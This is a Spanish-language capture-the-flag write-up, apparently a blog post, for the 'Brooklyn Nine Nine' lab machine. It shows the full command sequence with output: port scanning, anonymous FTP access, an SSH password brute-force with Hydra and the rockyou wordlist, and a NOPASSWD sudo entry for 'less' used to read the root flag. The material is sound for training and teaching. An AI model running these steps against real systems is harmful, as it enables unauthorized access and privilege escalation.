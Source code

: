 ```yaml
---
layout: post
author: Temerio
---
```

![](https://i.imgur.com/wXKrQUO.png)
## Enumeration
```bash
sudo nmap -p- -sSC --min-rate 5000 --open -vvv -n -Pn 10.10.241.206
```
```bash
Discovered open port 22/tcp on 10.10.241.206
Discovered open port 21/tcp on 10.10.241.206
Discovered open port 80/tcp on 10.10.241.206
```
___
Una vez descubierto que puertos abiertos tiene la maquina victima, hacemos un escaneo en profundidad.
```bash
sudo nmap -p21,22,80 -sCV -n -Pn 10.10.241.206 
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-18 14:35 EST
Nmap scan report for 10.10.241.206
Host is up (0.24s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.225.45
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.19 seconds
```
___

Podemos ingresar al FPT(Port-21) en modo Anonimo asi que procedemos a ingresar y listar su contenido.
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/Brooklyn-nine-nine]
└─$ ftp 10.10.241.206
Connected to 10.10.241.206.
220 (vsFTPd 3.0.3)
Name (10.10.241.206:temerio): Anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
```
___

Dentro del File Transfer Protocol (FTP) se encuentra una nota para Jake, nos la descargamos a nuestra PC para posteriormente visualizar su contenido.
```bash
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
226 Transfer complete.
119 bytes received in 0.01 secs (19.4854 kB/s)
ftp> exit
221 Goodbye.
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/Brooklyn-nine-nine]
└─$ cat note_to_jake.txt
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
___

Visualizamos una nota con dos posibles usuarios `Amy y Jake`. Ya que amy le pide a Jake que cambie su contrase;a ya que es muy debil procederemos a Crackear su pass con el uso de Hydra.
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/Brooklyn-nine-nine]
└─$ hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.241.206 

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-18 15:18:32
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.241.206:22/
[22][ssh] host: 10.10.241.206   login: jake   password: [Deleted]
1 of 1 target successfully completed, 1 valid password found
```
___

Una vez obtenida la contraseña nos conectamos mediante secureshell(SSH).
```bash
┌──(temerio㉿Hackademy)-[~/Desktop/Thm/Brooklyn-nine-nine]
└─$ ssh jake@10.10.241.206                        
jake@10.10.241.206's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$ 
```
___

Listamos los comandos de sudo con `sudo -l`.
```bash
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
___

Observamos que `/usr/bin/less` (el cual es un enlace simbolico) puede ser ejecutado por cualquier usuario, podremos usarlo para obtener la flag de root.
```bash
jake@brookly_nine_nine:/$ cd /home/holt/
jake@brookly_nine_nine:/home/holt$ cat user.txt 
[Deleted By Temerio]
```
___

Ahora con less solo leemos la flag de root.

```bash
jake@brookly_nine_nine:/$ sudo /usr/bin/less /root/root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: [Deleted]

Enjoy!!
/root/root.txt (END)
```
Room Completada.
